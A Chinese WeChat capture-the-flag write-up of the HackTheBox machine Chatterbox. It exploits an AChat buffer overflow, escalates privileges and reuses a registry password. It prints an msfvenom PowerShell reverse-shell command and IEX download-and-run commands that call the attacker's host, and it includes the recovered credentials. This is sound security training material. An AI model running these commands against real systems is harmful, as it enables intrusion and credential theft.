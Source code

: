 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/xS3E6vYLMNIB9ROlzkfy7g)

大余安全  

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **65** 篇文章，本公众号会每日分享攻防渗透技术给大家。

![](https://mmbiz.qpic.cn/mmbiz_png/ZZjkJlysPGgXiaEDdiaSrSYEZ8PUyRCDzLpYwnHC7gw6VXiaaToL2icZ3ia948IogXQ4lqoAMOD5LO2qOc5NHgZP6XA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/bdb9ZIwDgdDG2t7nibhXicZbsRPk5QZuwiactvdzLib1PfjRUlARjQlb4yZDxO03yRia6znvG144zcNh8e0ibgV2fMicA/640?wx_fmt=png)

靶机地址：https://www.hackthebox.eu/home/machines/profile/123

靶机难度：中级（4.0/10）

靶机发布日期：2018 年 6 月 16 日

靶机描述：

Chatterbox is a fairly straightforward machine that requires basic exploit modification or Metasploit troubleshooting skills to complete.

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/mmbiz_png/qZEn7rVYArv65UqUTxiaUf7ELEyoScH6cib0oGmVCQGhRNqcNUzb0ZdJpTKZW0tomEOozY8kicYlTljN42qPgOaCw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/tnoEwRLFJ9dFjWplia590LSGmWZAxQxFfibbhE9WaG7W0Exorfrfib7c2CoNe73ge1fQQeFnsksA2mSHBA1mtut7g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/51TtUhVATLWEINNkACTTKZFJia5yamKT5AlfhvMGAgzs6z6hlgOxCdLrPHSWDYSI7ygXMSdq6ppXvkXQ8VRGicAA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/l8lTqQtyKedAibzUJia0K14RF6GPtnjHClibiaJXV948a2nYibEUOcczhkMhlNHlmmv7Kh1sw4uv0UAhgxd8b2lOwWg/640?wx_fmt=png)

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_png/PbVgOGtFTF5FY5e7u1KmDC7hyKS7QNCVgIuxQ6Qd2QWr1ic5sIbW6vWFkpuE4vHiaTMLHF5nkJib2HyYZXnSiaiayIw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNewjwshhpALtZZt1yOxTrygDE8XYneQVNerMtGyF35CQJN9N2FrIRsqRhKsCTJLHPwLzPHlYVtDQ/640?wx_fmt=png)可以看到靶机的 IP 是 10.10.10.74.....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNewjwshhpALtZZt1yOxTry9q05tpSCicgIBsJ1iaEZptPX5RqrHmofbvg0lbdsNoicCSXFZsECdnouw/640?wx_fmt=png)

nmap 发现运行了 9255http 的服务... 还发现存在缓冲区溢出漏洞...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNewjwshhpALtZZt1yOxTryzdgibUW7ohGDwzzuiaM7HicgDCricGt6iatwchwasPAfmpbWoOdgJNvYicPA/640?wx_fmt=png)

无法访问...400，回头发现运行了 Achat 服务器上...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNewjwshhpALtZZt1yOxTryIIfDgXwJzEB5P3ykuQhgA8QqWkmZ5BiawZDQoyMjOcic9O8UraY1JhQg/640?wx_fmt=png)

存在漏洞，有个 python 能利用... 试试

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNewjwshhpALtZZt1yOxTryseuH6miaHWib6GnVUJjZS1boQ0jXjkCdEstN0k7B75nrLqhtcuF8k32w/640?wx_fmt=png)

修改地址后...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNewjwshhpALtZZt1yOxTryCcx6YyaCY7AnH0ov06VTN6Iicbic5TOOSwI2CBoW7btwsDNCicxibsica6w/640?wx_fmt=png)

可以看到这是建立在 windows 系统上的缓冲区溢出... 这里可以利用 powershell 方向链接靶机...GO

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNewjwshhpALtZZt1yOxTryYvd4aMnOZicTh4fbcgj1fzc5pvoibI24Iaf6SRT9licyQJ0u5OOw0Lk5w/640?wx_fmt=png)

```
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=10.10.14.18 LPORT=6666 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

利用 achat 漏洞创建 windows 上 powershell 的反向 shell... 但是问题来了，可以看到 16974 bytes，Payload 3556，大于 1100 个字节就不能使用有效负荷了... 继续修改...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNewjwshhpALtZZt1yOxTryHwz1QibicHxtYZc5v4E1KmhRyp2wjTI5KYYtMHHWEs9ia1o4Q33ShvwBA/640?wx_fmt=png)

生成 MSFbuf...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNewjwshhpALtZZt1yOxTryicPJPOK4jc6gqGJFlEvia5ic49I1ydIUEYdPS71JzFUZC1AsJJL1ArI0g/640?wx_fmt=png)

准备好上传的 shell...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNewjwshhpALtZZt1yOxTry1rbuMIicWN5vVGEqdic8kMYkIKxEy0N3QAx8MSngd54tSULyjHcmGSYQ/640?wx_fmt=png)

将 shell 填入即可....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNewjwshhpALtZZt1yOxTrypGPnIBCwJW2Z9B3X269Pl7icl9EnJ6RJXrshXWrOiccicRwK2wCv4JJbw/640?wx_fmt=png)

验证正常的...go

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNewjwshhpALtZZt1yOxTryYc5zqIrwnOI4NuibyXSkVYH7m4tv73LxsgEXrVSdSHVxib2QtqRuuZ5Q/640?wx_fmt=png)

通过 powershell 反向 shell 成功上传了... 获得了低权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNewjwshhpALtZZt1yOxTryIl49A7DkhVx99tW4GQOicicNoKKeYYhVrQOxodvMFibUVpjBHb3Qn4w4Q/640?wx_fmt=png)

获得 user.txt...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNewjwshhpALtZZt1yOxTryzhlYFV0LLLNsSCwJOYD0TP1RT150j4639s32rRtsEN3t6HAiaetGKOg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNewjwshhpALtZZt1yOxTryokstuFwKbwC7WKF3OAagZpCN7oHUZk3AnSic0icSLZGy7e0jltkAF0AQ/640?wx_fmt=png)

这里有点取巧了，目前我还在低权 Alfred 用户下，发现 administrator 下 desktop 的权限是可以看到 root.txt 文件的... 但是我进去查看内容无法查看... 看到我和 system 高权用户权限是一样的...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNewjwshhpALtZZt1yOxTryp6c6ibc9hT7Bn8et94T4tjf7RTdVHZk6fLJiavx3icGMhbticH5l7BX1wA/640?wx_fmt=png)

可以看到，这里直接在低权用户利用 icacls 获得了 root 信息... 这是人员管理用户给权限的漏洞... （cacls  Windows 实用程序，用于查看 / 编辑文件权限）

虽然拿到了信息... 但是还是要讲述怎么拿到 system 权限的... 继续

目前具有 PowerShell 会话，可以使用 PowerUp 进行提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNewjwshhpALtZZt1yOxTryMJYltRd4icYd9RxSr0Yr57cRiaSeeXHLVg9s2srmibuh70Tsa7Keib8qNw/640?wx_fmt=png)

```
git cloun https://github.com/PowerShellMafia/PowerSploit
```

下载后上传使用即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNewjwshhpALtZZt1yOxTryqkMphVfialwajpAowpcJmCXLvF0qgicAHPIsbMcICib3nlia4N9yz9h05w/640?wx_fmt=png)

```
IEX(NEW-Object Net.webClient).downloadString('http://10.10.14.18/dayu.ps1')
```

因为在 powershell 下，直接上传...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNewjwshhpALtZZt1yOxTrytFPAm0fT40qibLHd218jhbxBlnjeoBMThd9hqeEcicITGubFogzhGX8Q/640?wx_fmt=png)

```
Invoke-AllChecks
```

可以看到利用 PowerUp 看到了隐藏在注册表中的一组自动登录凭据...

```
DefaultUserName      : Alfred
DefaultPassword      : Welcome1!
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNewjwshhpALtZZt1yOxTryhRmj80V0tdgA5lbMLic8dwdz0ZPos9BQgYdPM30qxicEpvOUkAUtlg3Q/640?wx_fmt=png)

这里创建一个凭据变量来存储密码... 就是告诉 PowerShell 将先前找到的密码存储在纯文本中，并强制将其保存...

然后创建一个名为 cred 的新变量，并将其用于登录...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNewjwshhpALtZZt1yOxTryiatYSSNruo4g7KaBF8nhX5zociaXBQ8SDlkYQcPWZzWqxib2ZphZhVttw/640?wx_fmt=png)

直接在利用提权的 shell 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNewjwshhpALtZZt1yOxTryO1dFICNzAic838M6CU5UcFdI7D51ZH1QZTjyUK1BVuMiaRnx1mVpPbLA/640?wx_fmt=png)

```
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.14.18/dayushell.ps1')"  -Credential $cred
```

可以看到成功获得了 administrator 用户权限...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNewjwshhpALtZZt1yOxTrytq1KVHNycibZLEor5YL2GgaUy8EibhBBLqkFNlysPJ4JUWGxQ218ruJg/640?wx_fmt=png)

通过尝试使用 Administrator 帐户重用此密码是成功的，使用 powershell 或打开 SMB 并使用 impacket 的 psexec 来实现了... 完美

这里也能成功获得了 root 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/RKmmCHT73fdQQ2nv9rDeddIlJk71QWHcslefZEPQxvuVzXNn9ZlY6dicKOiaJQBXNFYkbHtUsOw0duN5FIUuItSA/640?wx_fmt=png)

这里介绍了几种方法，大家多多操作，加油！

当然，开局的时候官方的给的方法是：Chatterbox 是一台非常简单的机器，需要基本的漏洞利用修改或 Metasploit 故障排除技能才能完成。

我这里没使用 Metasploit 进行渗透的... 说明 Metasploit 肯定还有方式方法能进行提权.. 

这里有专研精神的，可以继续专研下去，这里可以利用 Metasploit 获得 root 信息...GO

由于我们已经成功得到 root 权限查看 user.txt 和 root.txt，因此完成了简单靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/xVzbJNmGHSCH5d0fX1bHZYbyKoFLsiapvaq5K6Oo80wFkVAmt04DEn4DSiagPY4oL5QTcTlFhJZsA5mbTUZTJFYQ/640?wx_fmt=png)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)
